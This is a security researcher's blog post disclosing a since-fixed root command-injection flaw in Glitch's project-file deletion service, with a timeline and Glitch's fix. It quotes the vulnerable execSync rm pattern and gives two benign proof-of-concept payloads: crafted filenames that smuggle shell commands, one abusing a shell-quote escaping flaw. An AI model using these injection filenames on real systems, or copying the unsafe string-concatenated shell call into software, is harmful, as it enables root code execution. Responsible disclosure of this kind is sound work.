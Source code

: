 ```yaml
---
date: Wed Nov 10 2021 23:22:39 -0800 (Pacific Standard Time)
qualitative_time: 
title: New post
previous_teaser: How to disown a weapon in GTA Online
previous_first: true
has_highlighting: true
---
```

In 2020, I discovered a root privilege escalation vulnerability in the way Glitch deletes project files.
This vulnerability is now fixed.

# Brief summary

A program that ran as root would do this:

```js
child_process.execSync(`rm -r '${fullOldPath}'`);
```

# Where was this?

Inside project containers, a service called "OT storage" (OT referring to _operational transformation_, an algorithm Glitch uses to manage concurrent modifications to the project from multiple users) accepts changes from the editor and applies the changes to the project container's filesystem.
The OT storage service runs as root (I don't know why).

One of the operations the OT storage service performs is to delete a given directory and its contents.
The OT storage service is written in Node.js, the standard library of which does not provide a way to delete a directory recursively.
So it's up to the application to implement logic to do that or to use a third-party library.
Maybe using the `rm` program's recursive deletion was the most appealing way to do it.

# A copy of the report I sent to Glitch

In various places in the ot-storage service, it shells out like this:

```js
child_process.execSync(`rm -f '${completePath}'`);
```

With a number of dangerous qualities:

1. It uses the raw `child_process` module, which doesn't switch to the app user.
2. It includes user-controlled data in `completePath`.
3. It constructs the command using string concatenation.
4. It doesn't escape or sanitize the varying part.

A specially crafted filename can trick ot-storage into running other shell commands.
Because ot-storage runs as root, those commands will run as root.

## Sample exploit with dummy payload

In the terminal:

```sh
touch touch a\'\;id\>me\'
touch a
refresh
```

In the editor, delete `a';id>me'`.

Verify in the terminal:

```sh
ls # a gone
ls -l /opt/watcher/me # created, owned by root
```

# Notes

The JavaScript line I quoted in the report wasn't the one that the sample exploit triggered.
The sample exploit triggered the one I put in the brief summary section above.

The line I quoted in the report was used for cleaning up a failed write in some exotic cases.
This one didn't have to be recursive, but maybe they shelled out just for consistency.

# Glitch's fix

They stuck with using `rm -r` for recursive deletion, but they used a package called `shell-quote` to escape the filename.

```js
const shell_quote_1 = require("shell-quote");
...
child_process.execSync(shell_quote_1.quote(['rm', '-r', fullOldPath]));
```

# Further investigation

Around the time Glitch notified me of their fix, I was working on a project that needed to quote some text for shell parameters.
In my project, I opted to write [my own logic](https://github.com/wh0/snail-cli/blob/v2.9.0/src/index.js#L331-L333) to do it:

```js
function shellWord(s) {
  return '\'' + s.replace(/'/g, '\'"\'"\'') + '\'';
}
```

(Don't look at how it's used.
I know there is a critical problem with that.)

I wanted to know how other people did it--perhaps the people who contributed to the 10,559,861 weekly downloads were on to something--so I looked into how the shell-quote package worked.
It was quite different from how I was doing it.
In comparing the behaviors, I found a [vulnerability in shell-quote](/2021/10/28/shell-quote-rce-exploiting.html) that I mentioned in an earlier post, and I reported it to the shell-quote project.

I kept the shell-quote vulnerability private during that time.
I suggested to Glitch that they use `execFileSync` so that they wouldn't have to bother with quoting in the first place, but they declined to take action without a proof of concept exploit.

Soon after, the shell-quote project released a fixed version and publicly disclosed the vulnerability.
Glitch then updated to that fixed version.

Here's how this would have been exploited on Glitch though:

```sh
cat >/app/other.sh <<EOF
#!/bin/sh
id >/tmp/i-am-pwned
echo oh no
EOF
chmod +x /app/other.sh
mkdir '`:`'
mkdir '`:`/app'
touch '`:`/app/other.sh``:`'
refresh
```
Then delete ``` '`:`/app/other.sh``:`' ``` in the editor:

![](/assets/2021/glitch-ot-rm-tree.png)

# Timeline

**2020/11/10**
I find this vulnerability.
I send the report to Glitch.

**2020/11/11**
Glitch forwards the report to the engineering team.

**2021/10/08**
I ask about the status of this report.

**2021/10/14**
Glitch notifies me that they've deployed a fix.
I find the shell-quote vulnerability.
I report that to the shell-quote team for confirmation.
I suggest `execFileSync` to Glitch.

**2021/10/15**
Glitch replies that they won't take action.

**2021/10/21**
The shell-quote correspondence simultaneously confirms the vulnerability, announces it, and publishes a fixed version.
I inform Glitch of the fixed version.

**2021/10/26**
Glitch deploys the fixed version of shell-quote.
We come to an agreement that the vulnerability is fixed.

# Discussion

Special mention to RiversideRocks for raising awareness about shell safety in a [CTF challenge]( https://support.glitch.com/t/can-you-read-the-secret-file/30396) featuring command injection shortly before this.

This is the second time we're seeing the date 2021/10/08 involved.
We'll be seeing it a few more times in the future too.
